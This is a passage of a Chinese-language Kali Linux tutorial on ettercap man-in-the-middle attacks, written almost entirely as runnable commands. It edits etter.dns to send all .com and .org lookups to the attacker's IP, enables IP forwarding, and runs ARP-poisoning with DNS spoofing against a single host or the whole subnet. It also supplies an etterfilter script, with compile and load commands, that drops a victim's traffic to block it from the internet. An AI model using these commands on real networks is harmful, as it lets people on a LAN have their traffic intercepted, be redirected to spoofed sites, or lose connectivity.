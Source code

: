```shell
root@kali:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.1.8  netmask 255.255.255.0  broadcast 192.168.1.255    确认自身IP地址

root@kali:~# vim /etc/ettercap/etter.dns 
################################
# microsoft sucks ;)
# redirect it to www.linux.org
#

*.com A 192.168.1.9          #添加跳转页面,意思是只要是.com结尾的,跳转到本机IP
*.org A 192.168.1.9          #添加跳转页面,意思是只要是.com结尾的,跳转到本机IP

microsoft.com      A   107.170.40.56
*.microsoft.com    A   107.170.40.56
www.microsoft.com  PTR 107.170.40.56      # Wildcards in PTR are not allowed
```

4.开启转发,并启动中间人攻击,此时被攻击主机访问指定规则页面,都会跳转到我们的网站上.

```shell
root@kali:~# echo 1 > /proc/sys/net/ipv4/ip_forward
root@kali:~# ettercap -i eth0 -T -P dns_spoof -M arp /192.168.1.2// /192.168.1.1// -q
root@kali:~# ettercap -i eth0 -T -P dns_spoof -M arp /// /192.168.1.1// -q
```



## 禁止主机上网

1.编写一个过滤脚本,下面的脚本名为`lyshark.txt`,内容如下.

```shell
root@kali:~# vim lyshark.txt

if (ip.src == '默认网关') {
   kill();
   drop();
   msg("kill all");
}
if (ip.src == '被攻击主机IP') {
   kill();
   drop();
   msg("kill all");
}
```

2.编译成ettercap可以识别的二进制的二进制文件.

```shell
root@kali:~#  etterfilter lyshark.txt -o lyshark.ef
```

3.使用ettercap加载此脚本,欺骗全网段可以使用`///`代表.

```shell
ettercap -i eth0 -T -F lyshark.ef -M arp:remote /192.168.1.2// /192.168.1.1//  // 欺骗指定主机
ettercap -i eth0 -T -F lyshark.ef -M arp:remote /// /192.168.1.1//             // 欺骗全网段
```

